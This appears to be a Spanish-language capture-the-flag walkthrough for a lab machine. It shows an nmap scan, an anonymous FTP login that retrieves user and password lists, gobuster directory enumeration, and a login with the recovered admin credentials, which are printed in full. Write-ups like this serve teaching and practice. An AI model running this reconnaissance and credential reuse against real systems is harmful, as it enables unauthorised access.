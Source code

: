 1. **Escaneamos los puertos más comunes usando scripts predeterminados y determinamos los servicios y versiones que se están ejecutando en los puertos abiertos.**
```bash
nmap -sV -sC [target ip]
```
--> port 21/tcp - open - ftp     
	ftp-anon: Anonymous FTP login allowed -->
		allowed.userlist / allowed.userlist.passwd

--> port 80/tcp - open- http


2. **Vemos que está el `ftp` abierto y podemos entrar como Anonymous sin contraseña. Entramos y obtenemos los archivos "allowed.userlist" y "allowed.userlist.passwd" y nos salimos del `ftp`**
```bash
ftp [target ip]
	Connected to [target ip]
	Name ([target ip]:kali): Anonymous
	Login successful.
ftp> ls
	allowed.userlist / allowed.userlist.passwd
ftp> get allowed.userlist
	Transfer completed
ftp> get allowed.userlist.passwd
	Transfer completed
ftp> exit
```


3. **Como también está abierto el puerto 80 (web), usamos `gobuster` para listar los directorios (`dir`) que sean `html` o `php` (`-x php, html`) de nuestra máquina objetivo usando una wordlist**
```bash
gobuster dir -u http://[target ip]/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php, html
	/assets --> http://[target ip]/assets/
	/css --> http://[target ip]/css/
	/js --> http://[target ip]/js/
	*/logout.php --> http://[target ip]/login.php/
	/config.php
	/fonts --> http://[target ip]/fonts/
	/dashboard --> http://[target ip]/dashboard/
```
--> Probamos estas URLs en nuestro navegador y comprobamos que en **"http://[target ip]/login.php/"** , podemos ver una página con un inicio de sesión.


4. **Abrimos los archivos que obtuvimos del servidor `ftp` y vemos que venían usuarios y contraseñas. Los probamos en la página de inicio de sesión.**
```bash
aron - root
pwnmeow - Supersecretpassword1
egotisticalsw - @BaASD&9032123sADS
admin - rKXM59ESxesUFHAd
```
--> Conseguimos entrar con admin y su contraseña y nos movemos dentro de la web hasta encontrar la flag.
